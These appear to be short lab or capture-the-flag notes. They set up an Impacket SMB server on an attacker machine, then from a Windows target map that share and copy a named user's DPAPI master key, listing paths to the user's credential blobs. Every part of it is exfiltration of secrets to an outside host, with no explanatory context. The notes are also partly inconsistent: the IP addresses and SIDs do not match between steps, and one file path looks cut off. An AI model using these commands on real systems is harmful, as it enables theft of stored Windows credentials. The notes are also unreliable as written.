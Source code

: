
### My machine

```shell

sudo rm -rf /tmp/lootshare
mkdir -p /tmp/lootshare
sudo chown $(whoami):$(whoami) /tmp/lootshare
chmod 777 /tmp/lootshare
ls -ld /tmp/lootshare

sudo /home/slom/.local/bin/smbserver.py share /tmp/lootshare -smb2support -username a -password 'a'

```
or
```sh
mkdir -p share
chmod 777 share

sudo impacket.smbserver share ./share -smb2support -user 'a' -password 'a' 

```

### Target
```powershell

net use * /delete /y

net use \\10.10.16.81\share /user:a a
copy "C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1107\556a2412-127" \\10.10.16.94\share\masterkey_blob
```

C:\Users\steph.cooper\AppData\Roaming\Microsoft\Protect\S-1-5-21-1487982659-1829050783-2281216199-1105\1038bdea-4935-41a8-a224-9b3720193c86
C:\Users\steph.cooper\AppData\Local\Microsoft\Credentials\DFBE70A7E5CC19A398EBF1B96859CE5D